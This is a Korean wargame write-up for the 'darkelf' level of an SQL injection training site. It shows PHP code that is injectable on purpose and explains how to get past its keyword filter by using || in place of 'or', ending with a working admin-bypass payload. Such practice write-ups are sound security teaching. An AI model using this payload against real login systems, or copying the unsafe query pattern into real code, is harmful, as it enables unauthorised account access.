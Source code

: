 ###### 이번부터 한글로 적기로 하였습니다..
# **Darkelf**
## 1. 문제의도
or 과 and 없이 인젝션을 할 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect();  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~"); 
      
      if(preg_match('/or|and/i', $_GET[pw]))
        exit("HeHe"); 
        
      $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>"; 
      
      if($result['id'] == 'admin')
        solve("darkelf"); 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 or 과 and를 사용할 수 없다는 점입니다.

    prob | _ | . | () | or | and

### 2. query

    select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'

접근 할 수 있는 부분 : pw GET parameter

### 3. if($result['id'] == 'admin') solve("darkelf");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution
우리가 현재 놓인 상황은 계속 사용해 오던 or 와 and를 사용할 수 없다는 것이다.

### 1. || 와 && 사용
우리는 or 과 and 대신 C에서 프로그래밍을 할 때처럼 || 그리고 &&로 대신하여 사용할 수 있다.  
|| 는 Oracle 에서는 CONCAT 과 같이 사용되는 것 같기도 하다.

    pw="password" and id="admin" 과 pw="password"&&id="admin" 은 같은 맥락이다.

### My Answers :
    
    ?pw=' || id='admin
      
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**